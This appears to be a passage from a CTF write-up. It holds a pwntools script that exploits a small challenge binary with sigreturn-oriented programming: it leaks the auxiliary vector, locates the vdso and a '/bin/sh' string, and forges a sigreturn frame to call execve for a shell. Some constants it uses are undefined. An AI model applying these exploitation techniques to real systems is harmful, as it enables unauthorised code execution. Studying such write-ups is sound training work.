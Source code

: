 ```python
AT_EXECFN = 0x1f
AT_PLATFORM = 0x0f

gdb.attach(p)

vuln_addr = 0x400082
set_write = 0x4000ac
syscall_addr = 0x400096
set_sigreturn = 0x4000b2

payload = '/bin/sh\x00'
payload += p64(vuln_addr)
payload += p64(set_write)
payload += p64(syscall_addr)
payload += 'A' * 8
payload += p64(vuln_addr)
raw_input('@')
p.send(payload)

payload = 'A'
raw_input('@')
p.send(payload)
ENV_AUX_VEC = p.recv(1024)
QWORD_LIST = []
for i in range(0, len(ENV_AUX_VEC), 8):
    QWORD_LIST.append(u64(ENV_AUX_VEC[i:i + 8]))
start_aux_vec = QWORD_LIST.index(AT_SYSINFO_EHDR) # 计算AUXV的起始地址
info(hex(start_aux_vec))
AUX_VEC_ENTRIES = QWORD_LIST[start_aux_vec: start_aux_vec + (18 * 2)] # size of auxillary table
AUX_VEC_ENTRIES = dict(AUX_VEC_ENTRIES[i:i + 2] for i in range(0, len(AUX_VEC_ENTRIES), 2))
vdso_addr = AUX_VEC_ENTRIES[AT_SYSINFO_EHDR]
info("vdso_addr = " + hex(vdso_addr))
bin_sh_addr = AUX_VEC_ENTRIES[AT_RANDOM] - 0x379 # 获取“/bin/sh”地址
info("bin_sh_addr = " + hex(bin_sh_addr))

syscall_ret = 0xffffffffff600007
syscall_ret = 0x4000b8

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = bin_sh_addr
frame.rip = syscall_addr
payload = 'A' * 8 + p64(set_sigreturn) + p64(syscall_ret) + str(frame)
raw_input('@')
p.send(payload)

p.interactive()
```

# fuckup
